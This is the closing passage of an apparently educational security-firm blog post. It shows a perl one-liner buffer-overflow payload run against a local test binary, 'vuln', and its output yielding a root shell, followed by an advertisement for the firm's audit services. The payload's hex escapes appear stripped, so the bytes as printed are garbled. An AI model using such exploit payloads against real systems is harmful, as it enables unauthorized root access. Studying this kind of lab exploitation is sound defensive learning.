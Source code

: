 ``$ /home/arget/vuln "`perl -e 'print "x50xc8xe3xf7" . "xc5x35xebxf7" . "xc8xecxf5xf7" . "A"x124 . "x1cxd2xffxff" . "x27x85x04x08"x5 . "x60x3dxebxf7" . "x6cx84x04x08"'`"  
[...]AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]  
# whoami  
root  
#``  
Exploited.  
This little program will last us for a while. How many different ways can exploit a program?  
Regards.

At Puffin Security, we use the ELITE SECURITY CONSULTING methodology so you can rest assured that your organization will have the highest level of security. 

Complete the form, and we'll be in touch as soon as possible

[![Lets Audit Button](/assets/uploads/2023/01/Puffin-security-blog-button-lest-audit-2.jpg 'lets Audit Button')](https://hub.puffinsecurity.com/quote)
